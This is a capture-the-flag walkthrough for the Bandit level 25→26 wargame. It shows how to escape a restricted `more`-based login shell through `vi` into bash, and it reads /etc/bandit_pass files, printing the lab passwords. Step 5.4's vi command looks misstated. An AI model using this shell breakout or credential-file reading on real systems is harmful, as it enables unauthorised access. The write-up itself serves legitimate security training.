 # Bandit Level 25 → Level 26

## Level Goal

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

## Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd

## Solution

**Note**: Minimize terminal window.

* Step1

  ```shell
  ./bandit_login.sh bandit25 uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
  ```

* Step2

  ```shell
  bandit25@bandit:~$ cat /etc/passwd | grep bandit26
  bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
  ```

* Step3

  ```shell
  bandit25@bandit:~$ cat /usr/bin/showtext
  #!/bin/sh
  
  export TERM=linux
  
  more ~/text.txt
  exit 0
  ```

  **Note**: No way to modify showtext.

  ```shell
  bandit25@bandit:~$ ls -l /usr/bin/showtext
  -rwxr-xr-x 1 root root 53 Oct 16  2018 /usr/bin/showtext
  ```

* Step4

  ```shell
  bandit25@bandit:~$ ssh bandit26@localhost -i bandit26.sshkey
  ```

* Step5

  1. Now, enter `h` in the `more` window.
  2. And then enter `v` to start up `vi`.
  3. Execute `:set shell=/bin/bash`.
  4. Execute `:set shell` to start up `shell`.

* Step6

  ```shell
  bandit26@bandit:~$ cat /etc/bandit_pass/bandit26
  5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z
  ```

* Step7

  ```shell
  bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
  3ba3118a22e93127a4ed485be72ef5ea
  ```

  




